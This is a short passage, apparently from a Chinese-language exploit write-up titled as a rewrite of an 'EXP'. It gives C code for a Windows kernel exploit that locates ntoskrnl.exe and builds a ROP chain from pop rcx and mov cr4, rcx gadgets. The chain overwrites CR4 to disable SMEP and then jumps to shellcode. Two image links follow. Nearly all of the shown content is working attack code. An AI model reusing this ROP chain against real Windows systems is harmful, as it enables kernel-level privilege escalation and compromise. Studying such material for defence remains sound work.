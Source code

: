 重写修改下 EXP

```plain
unsigned long long base = ulGetKernelBase((PCHAR)"ntoskrnl.exe");
    unsigned long long pop_rcx = base+ 0x20C64C;
    unsigned long long mov_cr4_rcx = base+ 0x39eb47;

    printf("[*] Start set ROP\n");
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)pop_rcx;
    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)mov_cr4_rcx;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
```

[![](assets/1706090578-5a1f3d5afda85a183b6798190267f8da.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131951-dea23cd6-b8e5-1.png)

[![](assets/1706090578-d74d9f58be2477d929ac520b190ab162.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132108-0c80a386-b8e6-1.png)

